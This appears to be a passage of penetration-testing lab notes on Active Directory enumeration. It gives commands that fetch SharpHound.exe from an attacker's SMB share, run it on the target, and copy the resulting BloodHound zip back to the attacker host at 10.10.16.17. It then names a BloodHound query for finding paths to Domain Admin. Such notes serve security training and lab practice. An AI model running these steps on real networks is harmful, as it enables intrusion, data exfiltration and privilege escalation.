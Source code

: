 On Target

Add SMB server to the target machine and copy SharpHound.exe

```
net use \\kali-ip\smb

copy \\kali-ip\smb\SharpHound.exe .

dir

SharpHound.exe
```

Run the "Collector" (SharpHound.exe) and copy the zip file back to the SMB share

```
./SharpHound.exe -c all

copy 20220911135329_BloodHound.zip \\10.10.16.17\smb
```

<mark style="color:yellow;">Open up the file using Kali's File Manager and open BloodHound, once BloodHound is open, drag the zip file into the whitespace and you can begin graphing!</mark>

### PrivEsc vector

* My query/analysis configuration to achieve this layout is the <mark style="color:yellow;"></mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">**"Shortest Paths to Domain Admins from Owned Principals"**</mark>

<figure><img src="../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>
